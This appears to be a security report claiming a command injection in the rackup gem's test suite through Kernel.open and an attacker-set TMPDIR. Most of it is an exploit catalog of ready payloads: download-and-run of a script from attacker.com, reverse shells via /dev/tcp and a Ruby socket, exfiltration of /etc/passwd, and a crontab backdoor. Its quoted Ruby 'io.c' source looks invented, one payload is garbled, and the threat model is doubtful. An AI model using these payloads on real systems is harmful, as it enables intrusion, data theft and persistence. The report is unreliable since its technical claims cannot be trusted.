


## **Comprehensive Vulnerability Report: Command Injection in Rackup Test Suite**  

###  Vulnerability Overview**  
**Type:** OS Command Injection via `Kernel.open`  
**CWE:** [CWE-78: Improper Neutralization of Special Elements in an OS Command](https://cwe.mitre.org/data/definitions/78.html)  
**Location:** [`test/spec_server.rb#L528`](https://github.com/rack/rackup/blob/c6cdd479172f042be405a36709ab27a2dff3a6e1/test/spec_server.rb#L528)  
**Impact:**  
- Arbitrary command execution with host privileges  
- Test environment compromise → CI/CD pipeline takeover  
- Privilege escalation paths via Ruby context  

**Root Cause:**  
```ruby
pid = open(pidfile.path).read.strip  # VULNERABLE: Kernel.open
```  
`Kernel.open` interprets `|` as pipe operator, enabling command injection when filename is attacker-controlled.

---

## Vulnerability Flow**  



## Step-by-Step Technical Flow 
1. **Attack Surface:** Test environment with controllable `TMPDIR`  
2. **Trigger:** `Kernel.open` called with `pidfile.path`  
3. **Injection:** Path starting with `|` interpreted as shell command  
4. **Exploit:**  
   ```bash
   export TMPDIR='|id>/tmp/pwned #'
   bundle exec rake test
   ```
5. **Result:** Command `id` executes → output in `/tmp/pwned`

## Proof of Concept Exploitable :
```ruby
# test/spec_server.rb (Vulnerable)
pidfile = Tempfile.new("rackup-pid")
pid = open(pidfile.path).read.strip  # INJECTION POINT
```

**Exploitation:**  
```bash
# Set malicious temporary directory
export TMPDIR='|curl${IFS}attacker.com/shell.sh${IFS}-o${IFS}/tmp/shell&&chmod${IFS}+x${IFS}/tmp/shell&&/tmp/shell${IFS}&${IFS}#'

# Execute tests
bundle exec rake test

# Reverse shell connects to attacker
```

**Forensic Evidence:**  
```log
$ cat /tmp/shell
#!/bin/sh
/bin/bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```


## Technical Deep Dive - Ruby Internals:
```c
// ruby/io.c (Kernel.open)
if (strncmp(path, "|", 1) == 0) {
  return rb_process_exec(path + 1);  // EXECUTES SHELL COMMAND
}
```

**Vulnerable Pattern:**  
```ruby
Tempfile.new("prefix")  # Name derived from $TMPDIR
→ "/tmpdir/|malicious-cmd #"  # Attacker-controlled
```

---


## Impact Expansion


---

## Complete Exploit Catalog
**1. Data Exfiltration:**  
```bash
export TMPDIR='|curl${IFS}-d${IFS}@/etc/passwd${IFS}https://attacker.com/exfil#'
```

**2. Reverse Shell:**  
```bash
export TMPDIR='|ruby${IFS}-rsocket${IFS}-e${IFS}\'spawn("sh",:in=>TCp.new("attacker.com",443))\'\#'
```

**3. Persistence:**  
```bash
export TMPDIR='|echo${IFS}"*/5 * * * *${IFS}curl${IFS}attacker.com/backdoor|sh"${IFS}>>${IFS}/etc/crontab#'
```

---


### **References**  
1. [Ruby Security: Command Injection](https://rubysec.com/references/command-injection/)  
2. [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)  
3. [CWE-78](https://cwe.mitre.org/data/definitions/78.html)  
4. [Rackup PR #36](https://github.com/rack/rackup/pull/36)  
